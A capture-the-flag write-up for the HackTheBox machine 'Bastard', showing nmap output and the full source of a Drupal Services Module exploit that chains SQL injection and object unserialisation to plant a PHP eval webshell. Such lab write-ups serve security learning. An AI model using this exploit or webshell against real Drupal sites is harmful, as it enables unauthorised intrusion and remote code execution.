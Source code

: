 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
<code>
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = <font color="53E100">'http://10.10.10.9'</font>;
<br>$endpoint_path = <font color="53E100">'/rest'</font>;
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>&emsp;&emsp;&emsp;'filename' => 'dixuSOspsOUU.php',
<br>    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>
<M
<p>class DatabaseCondition
<br>{
<br>    protected $conditions = [
<br>        "#conjunction" => "AND"
<br>    ];
<br>    protected $arguments = [];
<br>    protected $changed = false;
<br>    protected $queryPlaceholderIdentifier = null;
<br>    public $stringVersion = null;</p>

<p>    public function __construct($stringVersion=null)
<br>    {
<br>        $this->stringVersion = $stringVersion;</p>

<p>        if(!isset($stringVersion))
<br>        {
<br>            $this->changed = true;
<br>            $this->stringVersion = null;
<br>        }
<br>    }
<br>}</p>

<br>class SelectQueryExtender {
<br>    # Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>    # so that $query->compile() exists and (string) $query is controlled by us.
<br>    protected $query = null;

<br>    protected $uniqueIdentifier = QID;
<br>    protected $connection;
<br>    protected $placeholder = 0;

<br>    public function __construct($sql)
<br>    {
<br>        $this->query = new DatabaseCondition($sql);
<br>    }
<br>}

<br>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

<br># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>    "0x3a) UNION SELECT ux.uid AS uid, " .
<br>    "ux.name AS name, '$password_hash' AS pass, " .
<br>    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>    "ux.pass AS signature_format, ux.created AS created, " .
<br>    "ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>    "WHERE ux.uid<>(0"
<br>;

<br>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);

<br>$json = $browser->post(TYPE_PHP, $data);

<br># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>    print_r($json);
<br>    e("Failed to login with fake password");
<br>}

<br># Store session and user data

<br>$session = [
<br>    'session_name' => $json->session_name,
<br>    'session_id' => $json->sessid,
<br>    'token' => $json->token
<br>];
<br>store('session', $session);

<br>$user = $json->user;

<br># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);

<br># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);

<br>store('user', $user);

<br>if($cache === false)
<br>{
<br>    e("Unable to obtains endpoint's cache value");
<br>}

<br>x("Cache contains " . sizeof($cache) . " entries");

<br># Stage 2: Change endpoint's behaviour to write a shell

<br>class DrupalCacheArray
<br>{
<br>    # Cache ID
<br>    protected $cid = "services:endpoint_name:resources";
<br>    # Name of the table to fetch data from.
<br>    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>    protected $bin = 'cache';
<br>    protected $keysToPersist = [];
<br>    protected $storage = [];

<br>    function __construct($storage, $endpoint, $controller, $action) {
<br>        $settings = [
<br>            'services' => ['resource_api_version' => '1.0']
<br>        ];
<br>        $this->cid = "services:$endpoint:resources";

<br>        # If no endpoint is given, just reset the original values
<br>        if(isset($controller))
<br>        {
<br>            $storage[$controller]['actions'][$action] = [
<br>                'help' => 'Writes data to a file',
<br>                # Callback function
<br>                'callback' => 'file_put_contents',
<br>                # This one does not accept "true" as Drupal does,
<br>                # so we just go for a tautology
<br>                'access callback' => 'is_string',
<br>                'access arguments' => ['a string'],
<br>                # Arguments given through POST
<br>                'args' => [
<br>                    0 => [
<br>                        'name' => 'filename',
<br>                        'type' => 'string',
<br>                        'description' => 'Path to the file',
<br>                        'source' => ['data' => 'filename'],
<br>                        'optional' => false,
<br>                    ],
<br>                    1 => [
<br>                        'name' => 'data',
<br>                        'type' => 'string',
<br>                        'description' => 'The data to write',
<br>                        'source' => ['data' => 'data'],
<br>                        'optional' => false,
<br>                    ],
<br>                ],
<br>                'file' => [
<br>                    'type' => 'inc',
<br>                    'module' => 'services',
<br>                    'name' => 'resources/user_resource',
<br>                ],
<br>                'endpoint' => $settings
<br>            ];
<br>            $storage[$controller]['endpoint']['actions'] += [
<br>                $action => [
<br>                    'enabled' => 1,
<br>                    'settings' => $settings
<br>                ]
<br>            ];
<br>        }
<br>
<br>        $this->storage = $storage;
<br>        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>    }
<br>}

<br>class ThemeRegistry Extends DrupalCacheArray {
<br>    protected $persistable;
<br>    protected $completeRegistry;
<br>}

<br>cache_poison($endpoint, $cache);

<br># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));


<br># Stage 3: Restore endpoint's behaviour

<br>cache_reset($endpoint, $cache);

<br>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>    e("Failed to write file.");
<br>}

<br>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");


<br># HTTP Browser

<br>class Browser
<br>{
<br>    private $url;
<br>    private $controller = CONTROLLER;
<br>    private $action = ACTION;

<br>    function __construct($url)
<br>    {
<br>        $this->url = $url;
<br>    }

<br>    function post($type, $data)
<br>    {
<br>        $headers = [
<br>            "Accept: " . TYPE_JSON,
<br>            "Content-Type: $type",
<br>            "Content-Length: " . strlen($data)
<br>        ];
<br>        $url = $this->url . '/' . $this->controller . '/' . $this->action;

<br>        $s = curl_init(); 
<br>        curl_setopt($s, CURLOPT_URL, $url);
<br>        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>        curl_setopt($s, CURLOPT_POST, 1);
<br>        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>        $output = curl_exec($s);
<br>        $error = curl_error($s);
<br>        curl_close($s);

<br>        if($error)
<br>        {
<br>            e("cURL: $error");
<br>        }

<br>        return json_decode($output);
<br>    }
<br>}

<br># Cache

<br>function cache_poison($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>    cache_edit($tr);
<br>}

<br>function cache_reset($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>    cache_edit($tr);
<br>}

<br>function cache_edit($tr)
<br>{
<br>    global $browser;
<br>    $data = serialize([$tr]);
<br>    $json = $browser->post(TYPE_PHP, $data);
<br>}

<br># Utils

<br>function x($message)
<br>{
<br>    print("$message\n");
<br>}

<br>function e($message)
<br>{
<br>    x($message);
<br>    exit(1);
<br>}

<br>function store($name, $data)
<br>{
<br>    $filename = "$name.json";
<br>    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>    x("Stored $name information in $filename");
<br>}</code>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
